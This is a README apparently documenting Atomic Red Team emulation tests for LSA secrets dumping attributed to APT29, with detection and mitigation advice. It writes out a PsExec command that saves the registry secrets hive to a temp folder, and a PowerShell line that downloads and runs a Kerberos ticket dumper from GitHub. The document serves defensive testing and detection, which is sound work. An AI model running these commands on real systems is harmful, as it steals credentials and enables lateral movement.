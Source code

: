 # Atomic Red Team Test for APT29 - T1003.004 OS Credential Dumping: LSA Secrets

This repository documents **Atomic Red Team tests for T1003.004 (OS Credential Dumping: LSA Secrets)** that closely emulate the tradecraft of **APT29** (a.k.a. Cozy Bear, Midnight Blizzard).

The goal is to:
* Provide defenders with relevant tests for detecting LSA secrets dumping activities
* Map the test to known APT29 behaviors and campaigns
* Highlight specific techniques used by this threat group for credential access

---

## Background

* **APT29** (Cozy Bear, Midnight Blizzard) is a Russian state-sponsored threat group
  * Known for sophisticated cyber espionage and the **SolarWinds compromise**
  * Highly skilled in credential access and lateral movement techniques
  * Uses **LSA secrets dumping** to obtain credentials for service accounts and privileged access

APT29 leverages T1003.004 (LSA Secrets Dumping) because it allows them to:
* Extract cached credentials and authentication materials from compromised systems
* Obtain service account passwords that can be used for lateral movement
* Gain persistence in enterprise environments by capturing critical credentials
* Escalate privileges by obtaining sensitive authentication data

---

## Atomic Test Analysis

### Atomic Test #1 - Dumping LSA Secrets
**Technique:** Registry-Based Credential Dumping  
**Adversary Usage:** APT29  
**Command:**
```cmd
PsExec.exe -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```
**Explanation:** APT29 has used this exact technique during their operations. The combination of PsExec (for SYSTEM privileges) with the reg save command to extract the LSA secrets hive is a hallmark of their tradecraft. This allows them to access cached credentials, service account passwords, and other sensitive authentication data stored in the registry.

**APT29 Correlation:** During the SolarWinds campaign, APT29 demonstrated sophisticated credential access techniques, including dumping LSA secrets to obtain credentials for lateral movement and persistence within victim environments.

### Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1
**Technique:** Memory-Based Credential Extraction  
**Adversary Usage:** APT29  
**Command:**
```powershell
Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/MzHmO/PowershellKerberos/beed52acda37fc531ef0cb4df3fc2eb63a74bbb8/dumper.ps1')
```
**Explanation:** APT29 has used PowerShell-based tools to extract Kerberos tickets from LSA memory. This technique allows them to obtain golden and silver tickets for persistence and lateral movement without triggering traditional credential dumping detection mechanisms.

---

## Correlation with APT29 Tradecraft

### APT29 Focus:
* **Registry Operations (#1)**: APT29 uses legitimate tools like reg.exe and PsExec to extract LSA secrets from the registry
* **PowerScript Execution (#2)**: APT29 employs PowerShell scripts for in-memory credential extraction
* **Living-off-the-Land**: Both techniques use built-in Windows utilities to avoid detection

### Tactical Objectives:
1. **Credential Access**: Extract cached credentials and service account passwords
2. **Lateral Movement**: Use obtained credentials to move through the network
3. **Persistence**: Maintain access using stolen authentication materials
4. **Privilege Escalation**: Gain higher-level access through credential theft

---

## Defender Notes

* These tests are high-value because they **closely emulate real-world APT29 tradecraft**
* Detection should focus on:
  * `reg save` operations targeting `HKLM\security\policy\secrets`
  * PsExec execution with SYSTEM privileges (-s flag)
  * PowerShell downloading and executing scripts from external sources
  * Files being written to temporary directories with names like "secrets"
  * Unusual parent-child process relationships involving PsExec

* Critical detection opportunities:
  * **Process creation**: reg.exe with save parameter targeting sensitive registry hives
  * **File creation**: Secrets files written to temp directories
  * **Network activity**: PowerShell downloading scripts from external sources
  * **Privilege escalation**: Processes running as SYSTEM performing unusual operations

### Mitigation Strategies:
* Implement application control to restrict unnecessary utilities like PsExec
* Monitor for registry operations targeting sensitive security hives
* Use privileged access management to limit SYSTEM account activities
* Implement network segmentation to limit lateral movement
* Regularly rotate service account credentials

## Campaign References

1. **APT29 SolarWinds Campaign** (2020): Used credential dumping techniques to extract service account credentials for lateral movement
2. **APT29 COVID-19 Vaccine Targeting** (2020): Employed LSA secrets dumping to gain persistent access to research networks
3. **Various APT29 Operations**: Consistently demonstrated advanced credential access capabilities

## Academic References

1. MITRE ATT&CK Technique T1003.004 - OS Credential Dumping: LSA Secrets
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Russian SVR Activities" (APT29 TTPs)
4. FireEye: "APT29 Domain Fronting With TOR" (2017)
5. CrowdStrike: "APT29 Targets COVID-19 Vaccine Development" (2020)

## Detection Recommendations

* **SIEM Rules**: Alert on reg.exe saving HKLM\security\policy\secrets
* **EDR Monitoring**: Track PsExec spawning reg.exe with save operations
* **Network Monitoring**: Detect PowerShell downloading scripts from unknown sources
* **Behavioral Analysis**: Identify unusual SYSTEM account activities
* **File Monitoring**: Watch for secret files in temp directories